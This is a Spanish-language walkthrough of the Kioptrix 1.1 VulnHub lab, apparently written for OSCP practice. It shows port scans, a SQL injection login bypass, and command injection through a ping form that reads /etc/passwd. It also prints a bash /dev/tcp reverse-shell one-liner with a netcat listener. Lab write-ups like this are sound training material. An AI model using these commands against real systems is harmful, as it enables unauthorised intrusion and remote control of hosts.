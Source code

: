 ```yaml
---
layout: post
title: Kioptrix 1.1 - Walkthrough
date: 2020-02-04 20:44
description: Walkthrough - Kioptrix 1.1
toc: true
comments: true
tags: 
 - OSCP

---
```


## **Walkthrough de Kioptrix 1.1**
---

## **Links**
[Kioptrix 1.1 en Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)


## **Reconocimiento**
---
>**`nmap -T4 -p- 10.0.0.107`**

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:37 AKST
Nmap scan report for 10.0.0.107
Host is up (0.0028s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
622/tcp  open  collaborator
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:B1:91:AA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.05 seconds

```

>**`nmap -A -T4 -p 22,80,111,443,622,631,3306 -oA Kioptrix1.1`**

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:39 AKST
Nmap scan report for 10.0.0.107
Host is up (0.00013s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
|_ssl-date: 2020-02-03T23:30:15+00:00; -2h09m37s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
622/tcp  open  status     1 (RPC #100024)
631/tcp  open  ipp        CUPS 1.1
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 00:0C:29:B1:91:AA (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -2h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   0.13 ms 10.0.0.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.08 seconds
```

### **Protocolo SSH**

>**``ssh 10.0.0.107``**


### **Protocolo HTTP (80 y 443)**

>**``nikto -h 10.0.0.107``**

```console
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.0.107
+ Target Hostname:    10.0.0.107
+ Target Port:        80
+ Start Time:         2020-02-04 06:11:59 (GMT-9)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 357810, size: 4872, mtime: Sat Mar 29 08:41:04 1980
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8699 requests: 1 error(s) and 17 item(s) reported on remote host
+ End Time:           2020-02-04 06:12:59 (GMT-9) (60 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
## **Explotación**

Empezando por la parte web hay un formulario de login esperando en la raiz del servidor, explorando el código fuente del html no se encuentra mucho pero si hubo éxito al momento de probar una ataque de [sqli](https://www.elladodelmal.com/2007/07/sql-injection-level-1.html) básico.

![img]({{ '/assets/images/Vulnhub/Kioptrix1.1/sqli.png' | relative_url }}){: .center-image }*(SQLi malísimo)*

Lo que nos lleva a una página que aparentemente ejecuta el comando ``ping`` y devuelve el resultado:

![img]({{ '/assets/images/Vulnhub/Kioptrix1.1/ping_00.png' | relative_url }}){: .center-image }



![img]({{ '/assets/images/Vulnhub/Kioptrix1.1/ping_01.png' | relative_url }}){: .center-image }*(Resultado del comando ping)*


Bien, si está página ejecuta el comando ping entonces quiero probar si concatenando con otro comando también es ejecutado. Para concatenar comandos se utiliza el caracter pipe ``|`` seguido del otro comando, en la imágen queda de la siguiente manera:

![img]({{ '/assets/images/Vulnhub/Kioptrix1.1/passwd_00.png' | relative_url }}){: .center-image }

y se puede ver que efectivamente lo ejecuta y me muestra en pantalla la información contenida dentro del archivo ``/etc/passwd``

![img]({{ '/assets/images/Vulnhub/Kioptrix1.1/passwd_01.png' | relative_url }}){: .center-image }*Funcó bien*


Investigando un poco con los comando que se pueden ejecutar veo que no está instalado ni **Netcat** ni **Python** para tratar de generar una shell reversa. La verdad es que no se me ocurrió a mi pero también se puede generar una shell con bash, existe una página muy útil que tiene utilidades para realizar ataques: [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Lo único que restaría hacer es correr el siguiente comando en la máquina que se quiere vulnerar ``bash -i >& /dev/tcp/10.0.0.101/4444 0>&1`` mientras se ejecuta un ``Netcat`` en la máquina atacante para que reciba la conexion reversa ``nc -l 4444``.

Como obviamente todo salió bien, ya tengo una linea de comandos con bajos privilegios.


![img]({{ '/assets/images/Vulnhub/Kioptrix1.1/low_privilege_00.png' | relative_url }}){: .center-image }


Tal vez habría que enumerar un poco más antes de seguir...

## **Enumeración**

